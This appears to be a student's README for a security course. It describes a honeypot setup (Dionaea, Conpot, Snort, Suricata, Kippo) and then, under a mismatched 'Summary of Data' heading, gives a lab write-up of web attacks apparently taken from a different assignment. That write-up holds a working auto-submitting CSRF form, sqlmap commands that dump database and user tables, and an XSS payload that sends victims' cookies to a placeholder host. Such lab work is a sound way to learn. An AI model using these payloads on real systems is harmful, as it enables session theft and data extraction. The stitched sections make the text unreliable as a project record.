 # Project 9 - Honeypot

Time spent: **10** hours spent in total

> Objective: Setup a honeypot and intercept some attempted attacks in the wild.

## Honeypots Deployed

### Dionaea Sensor
* Dionaea is "meant to be a nepenthes successor, embedding python as scripting language, using libemu to detect shellcodes, supporting ipv6 and tls."

### Conpot Sensor
* Conpot is a "low interactive server side Industrial Control Systems honeypot designed to be easy to deploy, modify and extend."

### Snort Sensor
* Snort is an "open source intrusion prevention system capable of real-time traffic analysis and packet logging."

### Suricata Sensor
* Suricata is "capable of real time intrusion detection (IDS), inline intrusion prevention (IPS), network security monitoring (NSM) and offline pcap processing."

### Kippo Sensor
* Kippo is a medium-interaction SSH honeypot written in Python. Kippo is used to log brute force attacks and the entire shell interaction performed by an attacker.

## Issues Encountered

I encountered issues installing the mhn into my VM at first due to a required site being down (httpbin.org), however that was later remedied when the github repo with the installation was updated.

I also ran into trouble installing the honeypot 'Cowrie', as the installation could not complete due to an error stating that 'setuptools' was not up-to-date and needed version 18.5 or higher. This error is a bug, since 'setuptools' on the VM was version 39. Despite that I recreated the VM, installed the 'setuptools' at version 18.5, and still the same error appeared. I gave up on the installation and instead installed the previous iteration of the honeypot - 'Kippo'.

The same error also appeared for 'Glastopf' where 'setuptools' was not up-to-date.

## Summary of Data

Vulnerability #1: Insecure Direct Object Reference (IDOR)
* By changing the value of "id" in the URL, a visitor is able to view pages/information that was meant to be private

<img src="https://raw.githubusercontent.com/cheezm91/CodePathWeek8/master/idor.gif">

Vulnerability #2: Cross-Site Request Forgery (CSRF)
* Forged a form using the code below. Then allowed a logged-in user to visit the page, resulting in a CSRF POST request attack

```
<html>
  <head>
  </head>
  <body>
  	<h1><center>Totally Normal Site</center></h1>
    	<form name="csrfForm" action="https://35.184.21.59/red/public/staff/salespeople/edit.php?id=1" 
	method="post" target="hide">

		<input type="hidden" name="first_name" value="Site Hacked">
		<input type="hidden" name="last_name" value="By Brian">
	</form>
	<iframe name="hide" style="display: none;"></iframe>
	<script>
 		document.csrfForm.submit();
	</script>
  </body>
</html>
```

<img src="https://raw.githubusercontent.com/cheezm91/CodePathWeek8/master/csrf.gif">

## Bonus Objectives

Bonus Objective 1: Build on Objective #3 (SQL Injection). Experiment to see what other kinds of information you can get the database to reveal.
* Using the tool sqlmap, additional information is extracted using the following prompts: 
* ```sqlmap -u https://35.184.21.59/blue/public/salesperson.php?id=1 --no-cast --dbs```
* ```sqlmap -u https://35.184.21.59/blue/public/salesperson.php?id=1 --no-cast --tables -D globitek_blue```
* ```sqlmap -u https://35.184.21.59/blue/public/salesperson.php?id=1 --no-cast --dump -T salespeople,users -D globitek_blue```

<img src="https://raw.githubusercontent.com/cheezm91/CodePathWeek8/master/bonus1.gif">

Bonus Objective 2: Build on Objective #4 (Cross-Site Scripting). Experiment to see if you can use XSS to: a) direct the user to a new URL, b) read cookie data, c) set cookie data.
* Inject the script ```<script>document.location = "https://google.com";</script>``` into feedback form. When a logged in user checks the feedback, the script will redirect them to https://google.com

<img src="https://raw.githubusercontent.com/cheezm91/CodePathWeek8/master/bonus2a.gif">

* We can also steal cookie data using ```<script>document.write('<img src="https://yourserver.com/collect.gif?cookie=' + document.cookie + '" />')</script>``` which will cause the logged in user to send their cookie to your target website
* It is also possible to set up a CSRF page to set someone's cookie data and using XSS redirect that user to the page

## Notes
